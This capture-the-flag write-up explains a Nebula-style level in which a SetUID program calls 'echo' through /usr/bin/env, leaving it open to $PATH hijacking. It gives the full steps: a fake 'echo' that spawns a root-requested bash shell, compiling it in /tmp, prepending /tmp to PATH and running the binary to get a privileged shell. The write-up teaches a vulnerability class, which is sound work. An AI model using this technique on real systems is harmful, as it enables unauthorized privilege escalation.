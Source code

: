 
---

### 📜 Challenge Description

> There is a vulnerability in the following SetUID program that allows **arbitrary code execution** due to how the command is constructed.
> 
> Log in as `level01` (password: `level01`) and examine the binary located at `/home/flag01`.

---

### 🧬 Source Code Review

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

**Key Observation:**

- The binary executes `/usr/bin/env echo ...`, which looks up `echo` in the current `$PATH`.
    
- This opens the door for **$PATH injection**, allowing an attacker to hijack which `echo` binary gets executed.
    

---

### 🎯 Goal

Leverage the insecure command execution to escalate privileges to `flag01` and retrieve the flag.

---

### 🛠️ Exploitation Steps

#### 1. Create a malicious `echo`

```bash
cd /tmp

nano echo.c
```

Paste the payload:

```c
int main() {
    setuid(0); setgid(0);
    system("/bin/bash");
    return 0;
}
```

#### 2. Compile and prepare

```bash
gcc echo.c -o echo
chmod +x echo
```

#### 3. Prepend `/tmp` to the `$PATH`

```bash
export PATH=/tmp:$PATH
```

This ensures your fake `echo` is executed instead of the real one.

---

#### 4. Trigger the vulnerability

```bash
cd /home/flag01
./flag01
```

You now have a shell running with the privileges of `flag01`.

---

#### 5. Capture the flag

```bash
getflag
```

✅ **Output:**

```
You have successfully executed getflag on a target account
```

---

### 📘 Takeaway

This level demonstrates how untrusted search path usage in privileged binaries can lead to serious security issues. By relying on `$PATH` to resolve executables (even basic ones like `echo`), a SetUID binary becomes vulnerable to **command hijacking**.

> Always use **absolute paths** and avoid using `/usr/bin/env` in privileged contexts.

---
